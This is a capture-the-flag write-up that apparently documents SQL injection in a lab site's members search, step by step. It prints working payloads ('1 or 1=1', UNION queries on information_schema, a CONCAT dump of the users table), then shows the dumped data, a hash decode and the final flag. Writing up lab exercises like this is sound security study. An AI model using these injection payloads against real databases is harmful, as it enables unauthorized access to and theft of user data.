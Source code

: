 # SQL Injection in Members Search Vulnerability Report

## What I Found

This breach is due to SQL injection vulnerability in the search for members input. I was able to navigate through the database and get the database tables and columns.

## Step-by-Step Process

### 1. Initial Discovery
After that, I was able to get my hands on the users datatable columns. With that, I was first able to get all the users' first name and surname using `1 or 1=1`.

So the query will end up being like this:
```sql
SELECT first_name, last_name FROM users WHERE id = 1 or 1=1
```

`1 = 1` will resolve to true, after that the query response will get us all the users' first_name and last_name.

### 2. First Results
After that, I was still not able to get any flag. The response was just:
```
|ID: 1 or 1=1
First name: one
Surname : me
ID: 1 or 1=1
First name: two
Surname : me
ID: 1 or 1=1
First name: three
Surname : me
ID: 1 or 1=1
First name: Flag
Surname : GetThe|
```

Here we can notice that there is a user with the first name as "Flag" and surname as "GetThe".

### 3. Union Attack
After that, I was able to use a union operation to retrieve all the users' columns values using this query:
```sql
1 or 1=1 union select 1, CONCAT(user_id, 0x20, first_name, 0x20, last_name, 0x20, town, 0x20, country, 0x20, planet, 0x20, Commentaire, 0x20, countersign) from users
```

With that, I was able to access the user with id 5 data. It was:
```
user_id: 5
first_name: Flag
last_name: GetThe
town: 42
country: 42
planet: 42 Decrypt this password -> then lower all the char. Sh256 on it and it's good !
Commentaire: (empty)
countersign: 5ff9d0165b4f92b14994e5c685cdce28
```

### 4. Final Steps
I was not able to make sense of this data at first, but what I ended up doing is:

1. Decode `5ff9d0165b4f92b14994e5c685cdce28` (it's the hash of the word "FortyTwo" using MD5 hashing algorithm)
2. Convert the word to all lowercase characters: FortyTwo → fortytwo
3. Hash "fortytwo" using SHA-256 hashing algorithm

So I ended up with `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5` as the flag.

## SQL Queries Used

```sql
-- Retrieve the database tables names
1 union SELECT table_name, table_name FROM information_schema.tables

-- Retrieve the database tables columns names  
1 UNION select table_name, column_name FROM information_schema.columns

-- Retrieve all the data from the users datatable
1 or 1=1 union select 1, CONCAT(user_id, 0x20, first_name, 0x20, last_name, 0x20, town, 0x20, country, 0x20, planet, 0x20, Commentaire, 0x20, countersign) from users
```